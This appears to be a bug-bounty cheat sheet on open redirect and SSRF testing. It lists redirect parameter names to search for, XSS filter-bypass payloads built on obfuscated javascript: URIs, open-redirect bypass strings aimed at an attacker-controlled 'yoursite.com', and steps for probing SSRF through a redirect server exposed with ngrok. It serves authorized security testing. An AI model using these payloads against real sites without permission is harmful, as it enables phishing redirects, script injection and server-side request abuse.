 ## Common issues
* Not ecoding values correctly
    - especially if target allows for /localRedirects

## Google searching for vuln endpoints
```
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url, history, goback, redirectTo, redirectUrl, redirUrl
```

## Is XSS possible?
- redirect -> Location: (not possible)
- redirect -> window.location: (test for js)

common bypass filters:  
```
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`

```

## Payloads:
``` 
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
```

# SSRF
In scope domain issueing request to an url/endpoint you have defined  
- Looking for API console (typically on dev docs page)
    - typically has freatures that take a url peram to execute code
- Test how handle redirects
- Setting up simple redirect script with XAMPP
    - NGROK to expose it
    - add sleep(time) - see if server hangs out
    - mayber filter only checking parameter value and not the redirect value
    - check if open redirect works
 